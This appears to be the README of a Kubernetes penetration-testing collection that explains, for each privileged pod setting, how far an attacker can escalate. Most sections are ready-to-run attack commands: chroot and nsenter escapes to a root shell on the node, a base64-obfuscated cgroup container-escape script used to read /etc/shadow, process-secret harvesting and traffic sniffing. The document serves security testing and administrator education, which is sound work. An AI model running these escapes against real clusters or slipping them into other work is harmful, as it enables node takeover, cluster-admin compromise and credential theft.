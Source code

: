 # badPods

A collection of yamls that will create pods with different elevated privileges.    

## Background
Occasionally, containers within pods need access to privileged resources on the host, so the Kubernetes pod spec allows for it. However, this level of access should be granted with extreme caution. As an administrator, you have ways to prevent the creation of pods with these security sensitive pod specifications, but it is not always clear what the real-world security implications of allowing certain attributes is.

## What's the worst that can happen?

This collection aims to help you quickly understand the impact of allowing specific security sensitive pod specifications, and some common combinations. 

## Prerequisites

1. Access to a cluster 
1. Permission to create pods and exec into them in at least one namespace
1. A pod security policy (or other pod admission controller's logic) that allows pods to be created with one or more security sensitive attributes, or no pod security policy / pod admission controller at all
1. No appArmor profile applied 

## Summary

Allowed Specification | What's the worst that can happen?
-- | --
\* | Gain cluster admin privileges 
hostPID + privileged |  Gain cluster admin privileges 
Unrestricted hostmount (/) | Gain cluster admin privileges 
privileged=true | Gain cluster admin privileges 
hostmount=true <br>readonlyfilesystem=true| Likely escalate to cluster admin 
hostpid | Kill and process on the node (DOS) <br>Access any secrets visable via ps -aux <br>Access sensitive applications and services 
hostnetwork | Sniff unencrypted traffic on any interface <br> Communicate with services that only listen on loopback, etc. <br> Potential path to gain cluster admin privileges  
hostipc | Not much on its own unless some services on the host are using hostIPC 

# Usage
 Each pod spec in the yamls directory targets a specific attribute or a combination of attributes that expose your cluster to risk. 



## Easy mode pod - You can create a pod with to all the things
If there are no pod admission controllers applied,or a really lax policy, you can create a pod that has complete access to the host node. You essentially have a root shell on the host, which provides a path to cluster-admin. 

[pod-chroot-node.yaml](yaml/pod-chroot-node.yaml)

```bash
# Create pod
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/pod-chroot-node.yaml [-n namespace]
# Exec into pod 
kubectl -n [namespace] exec -it bf-hostpid -- chroot /host
# Do stuff in pod
# You now have full root access to the pod
```

Reference(s): 
* https://raesene.github.io/blog/2019/04/01/The-most-pointless-kubernetes-command-ever/



## Nsenter pod - You can create a pod with privileged: true + hostPID

If you have `privileged=true` and `hostPID` available to you, you can use the `nsenter` command in the pod to enter PID=1 on the host, which allows also you gain a root shell on the host, which provides a path to cluster-admin. 

[pod-priv-and-hostpid.yaml](yaml/pod-priv-and-hostpid.yaml)

```bash
# Option 1: Create pod from local yaml 
kubectl apply -f pod-priv-and-hostpid.yaml [-n namespace] 
# Option 2: Create pod from github hosted yaml
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/pod-priv-and-hostpid.yaml [-n namespace] 

# Exec into pod 
kubectl -n [namespace] exec -it bf-nsenter -- bash
# Use nsenter to gain full root access on the node
nsenter --target 1 --mount --uts --ipc --net --pid -- bash

```

Reference(s): 
* https://twitter.com/mauilion/status/1129468485480751104
* https://github.com/kvaps/kubectl-node-shell

## Privonly pod - You can create a pod with only privileged: true

If you only have `privileged=true`, you can still get RCE on the host, and ultimately cluster-admin, but the path is more tedious. The exploit below escapes the container and allows you to run one command at a time. From there, you can launch a reverse shell.  



```bash
# Option 1: Create pod from local yaml 
kubectl apply -f pod-priv-only.yaml  [-n namespace] 
# Option 2: Create pod from github hosted yaml
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/pod-priv-only.yaml [-n namespace] 

# Exec into pod 
kubectl -n [namespace] exec -it bf-privpod -- bash
#create undock script that will automate the container escape POC
echo ZD1gZGlybmFtZSAkKGxzIC14IC9zKi9mcy9jKi8qL3IqIHxoZWFkIC1uMSlgCm1rZGlyIC1wICRkL3c7ZWNobyAxID4kZC93L25vdGlmeV9vbl9yZWxlYXNlCnQ9YHNlZCAtbiAncy8uKlxwZXJkaXI9XChbXixdKlwpLiovXDEvcCcgL2V0Yy9tdGFiYAp0b3VjaCAvbzsgZWNobyAkdC9jID4kZC9yZWxlYXNlX2FnZW50O2VjaG8gIiMhL2Jpbi9zaAokMSA+JHQvbyIgPi9jO2NobW9kICt4IC9jO3NoIC1jICJlY2hvIDAgPiRkL3cvY2dyb3VwLnByb2NzIjtzbGVlcCAxO2NhdCAvbwo= | base64 -d > undock.sh 
# Then use the script to run whatever commands you want on the host: 
sh undock.sh "cat /etc/shadow"
```

Reference(s): 
* https://twitter.com/_fel1x/status/1151487051986087936
* https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/ 


## hostPIDonly pod - You can create a pod with only hostPID

If you only have `hostPID=true`, you most likely won't get RCE on the host, but you might find sensitive application secrets that belong to pods in other namespaces. This can be use to gain unauthorized access to applications and services in other namespaces or outside the cluster, and can potentially be used to further comprise the cluster. 

[pod-hostpid-only.yaml](yaml/pod-hostpid-only.yaml)

```bash
# Option 1: Create pod from local yaml 
kubectl apply -f pod-hostpid-only.yaml  [-n namespace] 
# Option 2: Create pod from github hosted yaml
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/pod-hostpid-only.yaml [-n namespace] 

# Exec into pod 
kubectl -n [namespace] exec -it bf-hostpid -- bash
# View all processes running on the host and look for passwords, tokens, keys, etc.
ps -aux
#You can also kill any process, but don't do that in production :)

```

## hostNetwork pod - You can create a pod with only hostNetwork

If you only have `hostNetwork=true`, you can't get RCE on the host directly, but if your cross your fingers you might still find a path to cluster admin. 
The important things here are: 
* You can sniff traffic on any of the host's network interfaces, and maybe find some kubernetes tokens or application specific passwords, keys, etc. to other services in the cluster.  
* You can communicate with network services on the host that are only listening on localhost/loopback. Services you would not be able to touch without `hostNetowrk=true`

[pod-hostnetwork-only.yaml](yaml/pod-hostnetwork-only.yaml)


```bash
# Option 1: Create pod from local yaml 
kubectl apply -f pod-hostnetwork-only.yaml  [-n namespace] 
# Option 2: Create pod from github hosted yaml
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/pod-hostnetwork-only.yaml [-n namespace] 

# Exec into pod 
kubectl -n [namespace] exec -it bf-hostnetwork -- bash
# Install tcpdump and sniff traffic 
apt update && apt install tcpdump 
# Or investigate local services
curl https://localhost:1234/metrics
```


## hostIPC pod - You can create a pod with only hostIPC

If you only have `hostIPC=true`, you most likely can't do much. What you should do is use the ipcs command inside your hostIPC container to see if there are any ipc resources (shared memory segments, message queues, or semephores). If you find one, you will likely need to create a program that can read them. 
Reference: https://opensource.com/article/20/1/inter-process-communication-linux

[pod-hostipc-only.yaml](yaml/pod-hostipc-only.yaml)

```bash
# Option 1: Create pod from local yaml 
kubectl apply -f pod-hostipc-only.yaml  [-n namespace] 
# Option 2: Create pod from github hosted yaml
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/pod-hostipc-only.yaml [-n namespace] 

# Exec into pod 
kubectl -n [namespace] exec -it bf-hostipc -- bash
# Look for any use of inter= process communication on the host 
ipcs -a
```



# Remove pods
kubectl -n [namespace] delete -f pod-file-name.yaml